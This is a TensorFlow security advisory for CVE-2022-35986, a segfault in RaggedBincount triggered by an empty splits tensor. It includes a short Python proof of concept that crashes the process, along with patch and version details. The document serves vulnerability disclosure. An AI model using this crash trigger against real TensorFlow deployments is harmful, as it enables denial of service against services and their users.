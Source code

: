 ## TFSA-2022-117: Segfault in `RaggedBincount`

### CVE Number
CVE-2022-35986

### Impact
If `RaggedBincount` is given an empty input tensor `splits`, it results in a segfault that can be used to trigger a denial of service attack.
```python
import tensorflow as tf
binary_output = True
splits = tf.random.uniform(shape=[0], minval=-10000, maxval=10000, dtype=tf.int64, seed=-7430)
values = tf.random.uniform(shape=[], minval=-10000, maxval=10000, dtype=tf.int32, seed=-10000)
size = tf.random.uniform(shape=[], minval=-10000, maxval=10000, dtype=tf.int32, seed=-10000)
weights = tf.random.uniform(shape=[], minval=-10000, maxval=10000, dtype=tf.float32, seed=-10000)
tf.raw_ops.RaggedBincount(splits=splits, values=values, size=size, weights=weights, binary_output=binary_output)
```

### Patches
We have patched the issue in GitHub commit [7a4591fd4f065f4fa903593bc39b2f79530a74b8](https://github.com/tensorflow/tensorflow/commit/7a4591fd4f065f4fa903593bc39b2f79530a74b8).

The fix will be included in TensorFlow 2.10.0. We will also cherrypick this commit on TensorFlow 2.9.1, TensorFlow 2.8.1, and TensorFlow 2.7.2, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by Di Jin, Secure Systems Labs, Brown University
